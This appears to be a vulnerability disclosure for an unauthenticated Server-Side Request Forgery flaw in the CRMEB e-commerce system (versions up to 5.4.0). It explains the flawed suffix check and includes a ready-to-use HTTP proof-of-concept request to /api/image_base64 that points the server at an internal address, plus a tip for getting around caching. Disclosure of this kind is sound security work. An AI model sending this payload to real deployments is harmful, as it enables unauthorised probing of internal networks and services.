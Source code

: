 BUG_Author:
Rui Jie

Affected version:
CRMEB Standard Edition New Retail Social E-commerce System
Version<=5.4.0

Vendor:
https://www.crmeb.com/

Software:

https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:
app/api/controller/v1/PublicController.php
app/common.php

Description:

A vulnerability classified as Server-Side Request Forgery has been identified in CRMEB. This affects sections of the app/api/controller/v1/PublicController.php file. Manipulation of the parameter image/code leads to Server-Side Request Forgery
It's an unauthorised interface, and doesn't even require any users.
A server-side request can be forged by anyone by visiting /api/image_base64 and passing the parameter image/code 


Pass json data
`{"image": "http://127.0.0.1:67?1=xxx", "code":""}`
Even if here on the incoming imageurl/codeurl judgement, but here there is a logical problem, through the `&&` connection of the conditional judgement, even if there is no picture suffix, will not meet the conditions, but also will continue to perform subsequent functions to image_to_base64 to achieve the SSRF attack

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121447950.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121451269.png)
POC:
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"http://127.0.0.1:67?1=1222ss1231","code":""}
```
Trigger curl here(app/common.php)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121444887.png)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446514.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407121446706.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution `http://127.0.0.1:67/?1=change me`.
